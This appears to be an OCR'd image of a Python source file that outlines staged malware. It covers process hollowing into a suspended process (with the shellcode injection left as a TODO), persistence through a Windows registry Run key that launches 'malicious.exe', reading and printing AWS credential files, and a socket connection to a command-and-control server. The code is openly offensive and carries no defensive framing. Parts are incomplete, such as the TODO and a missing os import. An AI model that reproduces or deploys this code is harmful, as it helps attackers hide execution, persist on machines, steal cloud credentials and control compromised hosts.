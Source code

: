 ```python

# Stage 2: Implement Stealth Execution (Process Hollowing, Thread Hijacking)
def process_hollowing(target_process):
    import subprocess
    import psutil
    
    # Start target process in suspended state
    si = subprocess.STARTUPINFO()
    si.dwFlags |= subprocess.STARTF_USESHOWWINDOW
    pi = subprocess.Popen(target_process, startupinfo=si, creationflags=subprocess.CREATE_SUSPENDED)
    
    # Retrieve process handle
    process = psutil.Process(pi.pid)
    print(f"Process Hollowing into PID: {pi.pid}")
    
    # TODO: Inject shellcode into the suspended process and resume execution
    
    return pi.pid

# Example usage
# process_hollowing("C:\\Windows\\System32\\notepad.exe")

# Stage 3: OS Persistence Techniques
def setup_persistence():
    import winreg
    
    key = winreg.HKEY_CURRENT_USER
    subkey = r"Software\Microsoft\Windows\CurrentVersion\Run"
    value_name = "MyMalware"
    exe_path = "C:\\Users\\Public\\malicious.exe"
    
    with winreg.OpenKey(key, subkey, 0, winreg.KEY_SET_VALUE) as reg_key:
        winreg.SetValueEx(reg_key, value_name, 0, winreg.REG_SZ, exe_path)
    
    print("Persistence established via registry key")

# Example usage
# setup_persistence()

# Stage 4: Cloud Attacks (AWS, Azure, GCP Persistence & Evasion)
def aws_credential_theft():
    aws_creds_path = os.path.expanduser("~/.aws/credentials")
    if os.path.exists(aws_creds_path):
        with open(aws_creds_path, "r") as f:
            creds = f.read()
        print(f"AWS Credentials Found:\n{creds}")
    else:
        print("No AWS credentials found.")

# Example usage
# aws_credential_theft()

# Stage 5: C2 Comms Setup
def c2_communication(server):
    import socket
    
    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    s.connect((server, 443))
    s.send(b"Hello, C2 Server")
    response = s.recv(1024)
    print(f"C2 Response: {response}")
    
```